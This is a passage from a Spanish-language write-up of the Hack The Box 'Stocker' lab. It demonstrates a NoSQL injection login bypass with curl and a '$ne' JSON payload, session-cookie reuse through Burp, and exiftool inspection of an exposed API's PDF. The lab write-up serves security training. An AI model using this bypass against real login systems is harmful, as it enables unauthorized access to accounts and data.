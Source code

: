 ```bash
curl dev.stocker.htb/login -d $'{"username":{"$ne":"test"},"password":{"$ne":"test"}}' -H 'Content-Type: application/json'; echo
Found. Redirecting to /stock
```

Ya tenemos una inyeccion exitosa, es importante que en la peticion agreguemos la cabezera `Content-Type: application/json` porque estamos enviando data en formato `json`, vamos reenviarlo por el puerto 127.0.0.1:8080 al burpsuite desde curl

Este es el payload que usamos en la inyeccion para bypassear la autenticacion

```bash
{"username":{"$ne": "test"}, "password": {"$ne":"test"}}
```

Esto hara lo siguiente: siempre que haya al menos un usuario que no sea "test" y una contraseña que no sea "test", ese usuario sera devuelto y iniciara sesion. 

```bash
curl dev.stocker.htb/login -d $'{"username":{"$ne":"test"},"password":{"$ne":"test"}}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![](htb-writeup-stocker/stocker3.png)

![](htb-writeup-stocker/stocker4.png)

copiamos y pegamos la cookie de sesion y ya bypasseamos el panel de login

![](htb-writeup-stocker/stocker5.png)

Parece una aplicación web para comprar cosas raras. Hay 4 articulos en la web que Podemos agregar al carrito de compras.

![](htb-writeup-stocker/stocker6.png)

![](htb-writeup-stocker/stocker7.png)

cuando hacemos click en ver carrito, se nos abre esta ventana indicando todos los componentes que agregamos. Vamos a darle a submit purchase

![](htb-writeup-stocker/stocker8.png)

Vemos un enlace en `here` que nos reedirige a `http://dev.stocker.htb/api/po/63c87d31d6a42c59f2d7659a` un comprobante de pago en PDF, esto nos resuelve a una api que esta a la vista del publico y expuesta. Para desglosar el PDF y ver el origen del mismo, procedemos al descargo y comprobar con exiftool de que se trata.

![](htb-writeup-stocker/stocker9.png)

Si ejecutamos exiftool en este documento, veremos que se genera usando Chromium (Skia/PDF m108):

```bash
curl -s dev.stocker.htb/api/po/63c87d31d6a42c59f2d7659a | exiftool -  
ExifTool Version Number         : 12.50
File Size                       : 0 bytes
File Modification Date/Time     : 2023:01:14 00:00:00+01:00
File Access Date/Time           : 2023:01:14 00:00:00+01:00
File Inode Change Date/Time     : 2023:01:14 00:00:00+01:00
File Permissions                : prw-rw----
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Tagged PDF                      : Yes
Creator                         : Chromium
```